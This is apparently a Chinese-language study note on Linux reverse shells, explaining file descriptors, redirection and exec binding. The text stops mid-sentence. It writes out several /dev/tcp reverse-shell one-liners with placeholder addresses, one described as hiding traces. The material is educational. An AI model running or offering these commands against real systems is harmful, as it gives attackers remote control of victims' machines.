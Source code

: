 ﻿# Linux反弹shell学习

>废话不多说直接进入正题

这里感谢贾师傅提供的学习链接<br>[Linux反弹shell（一）](https://xz.aliyun.com/t/2548)
[Linux反弹shell（二）](https://xz.aliyun.com/t/2549)

反弹方式也有很多种，不过都离不开重定向，所以这篇文章还是更多的记录这方面的东西

## 文件描述符

咱这儿是web所以我就简单理解了下，大概是在打开文件时会使用文件描述符去定义输入输出或者错误输出，默认的文件描述符是：
 - **0 ->标准输入（默认键盘）**
 - **1 ->标准输出（默认显示器）**
 - **2 ->错误输出（默认显示器）**
比如现在打开一个文件，要写入时，它标准输入默认是键盘，则你输入就是从键盘进行写入；要显示文件内容，它标准输出的默认是显示器，所以显示则是从显示器进行输出。先列一个反弹指令:
`bash -i >& /dev/tcp/ip/port <&2`
`>&`即是将输出输入及错误输出都定向到
`/dev/tcp/ip/port`
这个文件中，但实际上这个文件是不存在的，它是和该ip上的该端口建立的一个连接吧，重定向到这里后，再执行bash -i ，如果你对你的ip：port进行监听，即可获得反弹的shell，因为现在对方该指令的输入，输出错误输出都定向到了自己这里，你的输入便是它获取的输入，它的输出便是你看到的输出。

## 输入输出重定向

用<和>即可完成输入输出的重定向
- 输入是<
- 输出是>
用法相同，都是<br>**[文件描述符]< [文件名]**
这种格式，即为将某文件描述符重新定向到这个文件，如不输入数字，则是<,>默认代表的文件描述符，即0和1。

## 文件描述符的复制

比上面那个重定向多了一个&
格式如下：
**[文件描述符1]<&[文件描述符2]**
**[文件描述符1]>&[文件描述符2]**
两者都是把文件描述符1复制到了文件描述符2的定向上，第一个是只读形式打开，第二个是以写入形式打开，区别不大。<br> 需要注意的是，文件描述符的复制是从左到右进行的，所以在重定向时需要注意指令的位置。如以下两个命令的区别：
- `cmd > file 2>&1`
是先将1（标准输出）定向到file文件。再把2（标准错误输出）复制到1，即file文件上，则1（标准输出）和2（标准错误输出）都在file文件上
- `cmd 2>&1 > file`
先把2（标准错误输出）复制到1（标准输出）上，再把1（标准输出）重定向到file文件上，区别在于，现在2（标准错误输出）是在以前1（标准输出）所在的文件上而现在的1（标准输出）是在file文件上。

## exec 绑定重定向
用法与上面的相同。但是上面的重定向只能在当前指令中使用，也就是说你想重定向的话每一句指令都需要重新进行重定向，而exec就能帮你直接绑定，不需要每局指令再重新进行重定向。
格式如下：
**exec [文件描述符]< [文件描述符]**
**exec [文件描述符]> [文件名]**
**exec [文件描述符]<> [文件名]**

在大多数情况中都是用exec绑定一个自定的文件描述符（即除0，1，2之外的一个数），再将0，1，2复制到该文件描述符去，这样不会影响标准输入输出和错误输出的正常使用，做到了隐藏痕迹的效果。比如这样：
`0<&196;exec 196<>/dev/tcp/ip/port; ls <&196 >&196 2>&196`
就是将0，1，2复制到了一个自定的196文件描述符上并把196绑定到了攻击者那边。
## 反弹shell
现在再来理解反弹shell就简单多了，就是想办法将命令行的标准输入标准输出以及标准错误输出转到攻击者这边，攻击者就可以从他那边使用该电脑的终端，就得到了shell。
比如这样
`bash -i > /dev/tcp/ip/port 0>&1 2>&1`
就将标准输出重定向到了该ip的主机上，又将标准输入和标准错误输出复制到了标准输出的






